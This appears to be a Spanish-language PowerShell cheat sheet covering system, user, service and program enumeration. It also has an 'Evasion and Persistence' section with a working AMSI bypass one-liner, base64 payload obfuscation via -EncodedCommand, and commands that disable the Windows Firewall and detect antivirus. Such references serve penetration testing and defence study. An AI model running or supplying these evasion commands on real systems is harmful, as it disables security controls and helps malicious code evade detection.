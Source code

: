 ### 🕵️‍♂️ Evasión y Persistencia

#### 🔄 Bypass de AMSI

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').
GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### 🧬 Ofuscar un payload en Base64

```powershell
$command = 'Get-Process'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encoded = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encoded
```

***

### 🤖 Automatización Útil

| **Comando**                                                                   | **Descripción**                            |
| ----------------------------------------------------------------------------- | ------------------------------------------ |
| `Get-LocalUser \| Export-Csv -Path C:\Temp\users.csv`                         | Exporta usuarios locales a un archivo CSV. |
| `Get-LocalGroup \| Export-Csv -Path C:\Temp\groups.csv`                       | Exporta grupos locales a un archivo CSV.   |
| `Get-CimInstance -Namespace root\SecurityCenter2 -ClassName AntiVirusProduct` | Detecta antivirus instalado en el sistema. |
| `Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False`        | Desactiva el Firewall de Windows.          |

***

### 💻 Información del Sistema y Gestión de Usuarios

| **Comando**                                            | **Descripción**                                   |
| ------------------------------------------------------ | ------------------------------------------------- |
| `Get-ComputerInfo`                                     | Muestra información detallada del sistema.        |
| `Get-LocalUser`                                        | Lista usuarios locales.                           |
| `Get-LocalUser -Name "NombreUsuario" \| Format-List *` | Muestra información completa de un usuario local. |
| `Get-LocalGroup`                                       | Lista los grupos locales.                         |
| `Get-LocalGroupMember -Group "Administradores"`        | Lista miembros del grupo "Administradores".       |

***

### 🖥️ Programas y Servicios

| **Comando**                                                                        | **Descripción**                                      |
| ---------------------------------------------------------------------------------- | ---------------------------------------------------- |
| `Get-WmiObject -Class Win32_Product \| Select-Object Name, Version`                | Lista programas instalados.                          |
| `Get-Service \| Where-Object {$_.Status -eq "Running"} \| Sort-Object DisplayName` | Servicios activos ordenados por nombre.              |
| `Get-Service \| Where-Object {$_.StartType -eq "Automatic"}`                       | Lista servicios configurados para inicio automático. |
